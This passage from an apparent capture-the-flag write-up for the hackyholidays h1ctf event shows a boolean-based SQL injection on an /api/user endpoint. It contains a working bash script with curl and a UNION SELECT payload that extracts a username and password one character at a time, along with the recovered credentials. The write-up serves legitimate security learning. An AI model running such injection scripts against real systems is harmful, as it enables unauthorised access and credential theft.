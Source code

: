 `Invalid content type detected`. Since it is expecting an image.

It doesn't end here! Back to the SQL injection.

It is possible to make a boolean based SQLi to guess the username and password via the username and password parameters of the `/api/user` endpoint. When providing a valid letter/number followed by a `%` the server would return `Invalid content type detected` in the response.

I made the following bash script based on that logic to extract the username and later the password:

```bash

# chr function to get ascii chars
chr() {
  [ "$1" -lt 256 ] || return 1
  printf "\\$(printf '%03o' "$1")"
}

while true
do
        for x in {48..57} {97..122};
        do
                letter=$(chr $x);
                #letter=$(urlencode "$letter");
                new="$dis";
                url=$(curl -s -k "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jasda59grop%27+UNION+SELECT+%222%27+UNION+SELECT+1,1,%27../api/user?username=${new}${letter}%25%27+--+-%22,%2712%27,1--+--" | grep '" src=".*"' -o | sed 's/" src="//' | sed 's/"//' | grep -v 'DM1YTZhMzkwYzA4ZThkM2RhLmpwZyIsImF1dGgiOiI3NmJhMDYxZDM1NmM2MjY0YTYwMDUyMT' | sed 's/^/https\:\/\/hackyholidays.h1ctf.com/');

                curl "$url" > output 2> /dev/null;
                if cat output | grep 'Invalid content type detected' > /dev/null; then dis="${dis}${letter}"; echo -ne "\r$dis"; fi
        done
done
```

```
zonduu@localhost:~/h1-ctf# ./2flag11.sh 
grinchadmin
```

Now we modify the script and add the username we just found, and try to get the password:  `?username=grinchadmin%26password=${new}${letter}%25`

```
zonduu@localhost:~/h1-ctf# ./2flag11.sh 
s4nt4sucks
```

With the username and password we found we log in and there is the flag:

{F1130176}

----------------
